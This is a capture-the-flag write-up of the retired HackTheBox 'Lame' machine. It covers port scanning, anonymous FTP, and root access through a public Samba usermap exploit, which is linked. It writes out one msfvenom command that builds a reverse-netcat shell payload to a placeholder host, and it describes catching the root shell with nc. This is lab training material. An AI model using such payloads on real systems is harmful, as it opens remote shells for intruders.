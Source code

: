 ```yaml
---
title: Lame Hackthebox Writeup
date: 2020-12-24 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,ftp,vsftpc,samba exploit,ftp anonymous login]     # TAG names should always be lowercase
image: /assets/img/lame-hackthebox/lame-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Lame:~$


Column | Details
------------ | -------------
Name | Lame
IP | 10.10.10.3
Points | 20
Os | Linux
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 26th May 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* `Anonymous ftp` is allowed, but of no use.
* Found `samba exploit` for the version running on the machine.
* Got Root directly.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/lame-hackthebox/nmap-scan-1.png)

From a `quick scan` we know that `4 Ports` are open i.e. `21,22,139,445`. Let's access port 21 `ftp` for anonymous logins.

___
![](/assets/img/lame-hackthebox/ftp-login-2.png)

But it's of no use as the directories are `empty`.

I googled a bit about the `smb` version running and found this [exploit](https://gist.githubusercontent.com/joenorton8014/19aaa00e0088738fc429cff2669b9851/raw/6e1ae37e0061be103fd733b16266d26379a7f4ba/samba-usermap-exploit.py)

Making changes in the *exploit* by replacing it with our `msfvenom payload`.

**msfvenom command** : *msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.X.X LPORT=9999 -f python*

___
![](/assets/img/lame-hackthebox/changing the payload-4.png)

This is what the final exploit looks like: (*changing the payload with our payload*)

___
![](/assets/img/lame-hackthebox/my-final-exploit-6.png)

Running the exploit and listeing on specified port using `nc`, we got the `Root shell`.

___
![](/assets/img/lame-hackthebox/got-root-shell-7.png)

